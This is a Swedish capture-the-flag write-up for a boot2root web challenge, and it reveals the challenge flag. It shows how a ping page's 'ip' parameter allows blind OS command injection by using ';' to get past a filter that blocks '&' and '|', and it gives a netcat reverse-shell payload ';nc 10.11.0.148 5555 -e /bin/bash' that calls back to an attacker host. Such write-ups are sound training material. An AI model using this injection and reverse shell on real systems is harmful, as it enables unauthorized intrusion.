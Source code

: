 # Boot2root: Knowit 1 - Initial

- **Skapare:** Knowit (Fredrik Ljung)
- **Poäng:** 300
- **Antal lösningar:** 15


## Beskrivning

En utvecklare testade leka lite med PHP, men glömde stänga ner webbservern.

Gå till http://13.74.143.253 och se om du kan ta dig in.

Notera: Brute-forcing kommer inte hjälpa dig att hitta flaggan! Dirb, gobuster och liknande är förbjudet.

## Flagga

SSM{knowit_1_Knowit_Secure_h4r_k0nt0r_i_SVeRige_oCh_Norg3_}

## Lösning

När man navigerar till hemsidan och kikar runt märker man att det inte finns något speciellt intressant.
Ett första steg då är att leta efter orefererade sidor. Genom att gå till `/robots.txt` så ser man `/network.php`.

När man kommer till /network.php och trycker på "click me" ser man ett ping-anrop till 8.8.8.8.
Man ser även att IPn kommer från GET parametern `ip`.
Testar man efter OS command injection med exempelvis `&` eller `|` får man till svar `Hacker attempt detected`.
Däremot om man använder `;` går det igenom.
Man kan köra `; sleep 10` för att konfirmera att det är en (blind) OS command injection.
Nästa steg är att sätta upp en lyssnare och skaffa ett shell.

Lyssnare:
```nc -nvlp 5555```

Payload:
```;nc 10.11.0.148 5555 -e /bin/bash```


När man fått ett shell på webbservern så kan man navigera till /home/www-data och läsa ut flaggan med `cat flag.txt`.

## Lösning på livestream

https://www.youtube.com/watch?v=Od8QJwQpbkk&t=8390s
